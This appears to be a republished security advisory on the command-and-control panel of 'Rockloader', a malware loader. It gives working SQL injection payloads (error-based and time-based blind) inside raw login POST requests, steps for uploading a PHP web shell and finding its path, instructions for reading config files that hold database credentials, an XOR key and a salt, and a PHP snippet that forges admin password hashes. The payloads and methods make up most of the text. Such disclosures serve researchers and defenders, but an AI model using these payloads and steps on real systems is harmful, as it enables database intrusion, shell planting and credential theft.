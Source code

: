 # Rockloader

    Type: SQLi and shell file upload
    Author: Danail Velev
    Contact: ICQ: 209030 / d.velev@colocation.bg
    Website: http://colocation.bg/
    Software: https://github.com/colocation/RockLoader-source
    Original Release: https://cxsecurity.com/ascii/WLB-2016070003

## Summary: SQL Injections
NO user registration required. The Command and Control Server processing the spread requests,user tasks and responsible for the process, is suffering from mutiple remote sql injection. Common C&C server path is "/cp/login/" in most common setups. Since the specific of the spreader and it's functionality, methods of encryption and working process, There is possibility for RCE,MSF/CMD injection and local root post 
explotation.

In common cases the setup comes with this specific configs.
- user has full priviligies to host sql server.
- you can interact with local file read in most conditions.
- user is database administrator in most conditions.
- database name and structure are identical since it comes as phpmyadmin dump.
- file write and read is a must.
- user screen capture plugin on advanced setups.
- default database name is 'appdater'


## Proof of Concept:

Affected parameters are "username" and "password" via specifict POST request.
The 3th parameter is the php session.


###----=(SQL Injection 1)=----
```
Type: error-based
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND ROW(9213,8915)>(SELECT 
COUNT(*),CONCAT(0x716a707071,(SELECT 
(ELT(9213=9213,1))),0x71767a7071,FLOOR(RAND(0)*2))x FROM (SELECT 4118 
UNION SELECT 5903 UNION SELECT 7493 UNION SELECT 1139)a GROUP BY x)-- 
KSxg1=6 AND 000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```
###----=(SQL Injection 2)=----
```
Type: AND/OR time-based blind
Method: POST
Request Type: XMLHttpRequest
Title: MySQL >= 5.0.12 AND time-based blind
Payload example for POST parameter username: 
password=S0M3PaSSw0rd&username=-1' OR 32 AND SLEEP(5)-- sWMh1=6 AND 
000580=000580 --
Example raw request for host: 127.0.0.1
-----------------EXAMPLE--------------------
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
-----------------END--------------------
```

###----=(Shell Upload POC)=----
```
Requirements:
- Valid user for control panel.
- Access to database for reading.

Step1:
Upload your shell as new file via Control Panel.
Name it: OWNED
Note: filename is masked in control panel

Step2:
See 'file' table at 'appdater' database.
QUERY: SELECT * FROM `file`;
Look for name=OWNED and coresponding file_path name (EXAMPLE: 
C932kc.php)

Step3:
Location of your Shell
http://127.0.0.1/files/c932kc.php

-----------------END--------------------
```
###----=(Database user and password disclose)=----
```

Example request to get the directory location:

===============================================
POST /cp/login/ HTTP/1.1
Content-Length: 87
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: 127.0.0.1/cp/login/
Cookie: PHPSESSID=c4u29lkhiavel5vt14tchcb190
Host: 127.0.0.1
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 
(KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
password=S0M3PaSSw0rd&username=d0na1DTrump
===============================================
Response if error reporting is enabled:

<br />
<b>Notice</b>:  A session had already been started - ignoring 
session_start() in <b>/var/www/html/cp/login/auth.php</b> on line 
<b>23</b><br />


===============================================

Read the settings.php file of the control panel to obtain user and 
password for database.
location: /var/www/html/cp/settings.php

----Snip-----
<?php
//Debug
ini_set('error_reporting', E_ALL);  // REMOVE TO TURN DEBUG OFF
ini_set('display_errors', 1);       // REMOVE TO TURN DEBUG OFF

//MySQL settings
define('DB_HOSTNAME', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', '');
define('DB_DATABASE', 'appdater'); <- most of the time this is the 
default database since it's come in the bundle.
define('DB_PORT', '3307');

......
---EndSnip---
```
###----=(XOR Encrypton key and password salt disclose)=----
```

Read the settings.php file (/var/www/appdater/html/settings.php)
Look at the global configuration for the app.

----Snip-----
//GLOBAL settings
define('XOR_KEY', 'aWL~jH9zJl$5Yfz7'); <- File encryption XOR_KEY
define('FILES_URL', 'https://summerr554fox.su/files/'); <- address of 
all uploaded files
define('APPDATER_PATH', '/var/www/html/');
define('SALT', 'KsqwGzTl?Qwq|oHA'); <- SALT KEY FOUND !
?>
---EndSnip---
TADAAAAAAAAAAAAAAAAAAAAAAAAAa we got the password for the sql and even 
more: XOR_KEY for file encyption, EXE files location, PATH to the 
Control Panel anddd....
The most important --> THE SALT !

```
###---=(Admin panel password generator)=---
```

Read the core/functions.php file 
(/var/www/appdater/html/core/functions.php)
Look for this

---Snip-----
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
----EndSnip---

TADAAAA so we got and the algo used to create correct user and 
password.


<?php
define('SALT', 'KsqwGzTl?Qwq|oHA');
     function create_hash( $string ) {
         return substr( sha1( SALT . $string ), 3, 17 );
     }
echo create_hash('S0M3PaSSw0rd');
?>

```

